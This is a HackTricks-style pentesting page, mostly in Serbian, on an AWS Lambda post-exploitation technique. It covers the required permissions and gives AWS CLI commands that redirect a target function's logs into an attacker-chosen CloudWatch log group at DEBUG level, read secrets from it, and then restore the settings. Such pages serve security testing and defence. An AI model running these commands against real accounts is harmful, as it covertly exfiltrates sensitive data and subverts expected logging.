 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Iskoristite napredne kontrole logovanja `lambda:UpdateFunctionConfiguration` da preusmerite logove funkcije u CloudWatch Logs log grupu koju odabere napadač. Ovo radi bez menjanja koda ili role za izvršavanje (većina Lambda rola već uključuje `logs:CreateLogGroup/CreateLogStream/PutLogEvents` preko `AWSLambdaBasicExecutionRole`). Ako funkcija ispisuje tajne/tela zahteva ili se ruši sa stack trace-ovima, možete ih prikupiti iz nove log grupe.

## Potrebne dozvole
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (or rely on existing triggers)
- logs:CreateLogGroup (often not required if the function role has it)
- logs:FilterLogEvents (to read events)

## Koraci
1) Napravite odredišnu (sink) log grupu
```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```
2) Preusmerite logove ciljne funkcije
```
aws lambda update-function-configuration \
--function-name <TARGET_FN> \
--logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
--region us-east-1
```
Sačekajte dok `LastUpdateStatus` ne postane `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
--query LastUpdateStatus --output text
```
3) Pozovi i pročitaj iz sinka
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```
## Uticaj
- Tajno preusmerite sve aplikacione/sistemske logove u grupu logova koju kontrolišete, zaobilazeći očekivanje da logovi stižu samo u `/aws/lambda/<fn>`.
- Exfiltrate osetljive podatke koje funkcija ispisuje ili koji se pojavljuju u greškama.

## Čišćenje
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
--logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
--region us-east-1 || true
```
## Beleške
- Kontrole logovanja su deo Lambda `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- Po defaultu, Lambda šalje logove na `/aws/lambda/<function>`, ali možete da usmerite na bilo koje ime log grupe; Lambda (ili uloga za izvršenje) će je kreirati ako dozvole to omogućavaju.

{{#include ../../../../banners/hacktricks-training.md}}
